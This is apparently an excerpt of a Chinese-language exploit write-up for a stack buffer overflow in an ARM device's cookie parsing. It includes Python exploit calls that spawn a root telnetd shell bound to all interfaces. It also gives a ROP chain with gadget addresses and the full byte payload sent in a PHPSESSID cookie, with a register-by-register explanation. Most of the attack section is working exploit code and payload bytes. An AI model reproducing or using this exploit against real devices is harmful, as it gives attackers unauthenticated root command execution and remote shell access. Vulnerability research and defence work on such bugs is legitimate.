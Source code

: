 ```python 

    if (stack_buffer_overflow('mount -t devpts devpts /dev/pts', ip, port) == False):
        print('[-] Mount failed')
        sys.exit(0)

    if (stack_buffer_overflow('/bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"&', ip, port) == False):
        print('[-] telnetd bind failed')
        sys.exit(0)

    print('[+] Success!')
```

在构造请求时，如何进行针对sprintf 进行 构造十分重要。

在cookie解析中通过堆栈溢出进行命令执行，命令执行以system root 进行，

```
  address 1: 405e2e34 - load system into r3 and address 2 into lr #通过
 .text:000D0E34 0F 48 BD E8                 LDMFD   SP!, {R0-R3,R11,LR}  
 .text:000D0E38 1E FF 2F E1                 BX      LR

 address 2: 406037cc - load the system command into r0. Jump to system.

 .text:000F17CC 0D 00 A0 E1                 MOV     R0, SP
 .text:000F17D0 33 FF 2F E1                 BLX     R3

 [   address 1  ][ r0 ][      r1      ][ r2 ][  r3 system   ][ r11 ][  LR - addr2  ][ system command ]
 \x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40touch /tmp/lolwat
```

[ARM汇编指令-STMFD和LDMFD](http://www.techbulo.com/563.html)

[ARM指令B BL BLX BX区别](https://blog.csdn.net/xinianbuxiu/article/details/52718178)

对构造的payload 进行分析

```python 
'Cookie: PHPSESSID=982e6c010064b3878a4b793bfab8d2d2' +                    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDD' +
       '\x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40' + command +
                    '\r\n\r\n')
        
 通过 
982e6c010064b3878a4b793bfab8d2d2aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDD
共170 字节消耗内存
直接覆盖
 [address 1]:\x34\x2e\x5e\x40
 [r0]:\xaa\xaa\xaa\xaa
 [r1]:\xbb\xbb\xbb\xbb
 [r2]:\xcc\xcc\xcc\xcc
 [r3 system]:\xfc\xbf\x54\x40   #system地址
 [r11]:\xee\xee\xee\xee
 [lr]：\xcc\x37\x60\x40
触发 address 1 进行入数据栈如上
 .text:000D0E34 0F 48 BD E8                 LDMFD   SP!, {R0-R3,R11,LR}  
 .text:000D0E38 1E FF 2F E1                 BX      LR
跳转到：LR内存地址
 .text:000F17CC 0D 00 A0 E1                 MOV     R0, SP
 .text:000F17D0 33 FF 2F E1                 BLX     R3
跳转到R3 地址
执行  command
```